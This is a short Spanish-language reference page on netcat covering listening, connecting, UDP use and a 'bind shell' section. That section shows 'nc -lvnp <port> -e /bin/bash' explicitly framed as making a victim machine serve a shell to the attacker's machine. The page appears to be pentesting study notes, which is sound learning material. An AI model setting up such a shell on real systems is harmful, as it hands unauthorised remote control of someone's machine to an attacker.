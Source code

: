 Es conocido por muchos como la navaja suiza para TCP/IP, ya que provee de una gran cantidad de funcionalidad para manejar conexiones.

## Ponerse en escucha

Podemos ponernos en escucha de la siguiente forma:

```bash
netcat -lvnp <port>
```

Con `-l`, especificamos que queremos escuchar; con `-v` hacemos que nos reporte las conexiones por pantalla (*verbose*); con `-n` podemos hacer que sólo escuche ips numéricas (no dns); y con `-p` especificamos el puerto.

Para **udp** utilizamos el parámetro `-u`.

## Conectarse con netcat

```bash
nc -v <ip> <port>
```

Para **udp** utilizamos el parámetro `-u`.

## Bind shell

Con el parámetro `-e` podemos hacer que al conectarse se ejecute un comando, de forma que podemos hacer que una máquina víctima ejecute una shell al conectarnos con nuestra máquina de atacante:

```bash
nc -lvnp <port> -e /bin/bash
```

Y desde nuestra máquina nos conectaríamos:

```bash
nc -v <ip> <port>
```


## Parámetros interesantes

- Con `-r` podemos randomizar el puerto.